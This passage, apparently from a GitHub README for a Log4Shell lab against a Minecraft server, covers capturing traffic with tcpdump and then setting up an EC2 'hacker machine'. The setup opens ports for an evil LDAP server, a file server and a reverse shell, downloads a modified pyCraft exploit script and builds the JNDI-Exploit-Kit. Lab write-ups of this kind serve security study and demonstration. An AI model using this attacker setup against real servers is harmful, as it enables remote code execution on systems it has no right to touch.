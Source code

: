 ### tcpdump recording
```
$ docker-compose down
```

The pcap file will be located in `docker/tcpdump/capture.pcap`.
**warning**: it adds a lot of docker management related traffic.

## VPS/EC2
### Hacker machine setup
A EC2 t2.micro (AMI) will do, add a security group with the following inbound rules:

| Protocol | Port | Source    | Description       |
| -------- | ---- | --------- | ----------------- |
| SSH/TCP  | 22   | 0.0.0.0/0 | Administration    |
| LDAP/TCP | 389  | 0.0.0.0/0 | Evil LDAP Server  |
| TCP      | 8000 | 0.0.0.0/0 | Jetty file server |
| UPD      | 6666 | 0.0.0.0/0 | Reverse shell     |


```
# Connect to the EC2 instance
$ ssh -i key-priv.pem ubuntu@18.212.74.161

# install git:	
$ sudo yum install git -y

# git clone https://github.com/ammaraskar/pyCraft.git & cd pyCraft
sudo pip3 install -r requirements.txt

# copy minecraft-log4shell.py (modified start.py script)
wget https://gist.githubusercontent.com/righel/d2fe544b7a988bb98b5d4b3c86166cc3/raw/79681d817b1d7b2d0b9e6a7309a0dd919b2a2a45/minecraft-log4shell.py

# install java:
sudo yum install java-1.8.0-openjdk
sudo yum install java-1.8.0-devel

# install maven:
$ sudo wget https://repos.fedorapeople.org/repos/dchen/apache-maven/epel-apache-maven.repo -O /etc/yum.repos.d/epel-apache-maven.repo
$ sudo sed -i s/\$releasever/6/g /etc/yum.repos.d/epel-apache-maven.repo
$ sudo yum install -y apache-maven

# compile pimps/JNDI-Exploit-Kit
$ git clone https://github.com/pimps/JNDI-Exploit-Kit.git & cd JNDI-Exploit-Kit/
$ mvn clean package -DskipTests
```
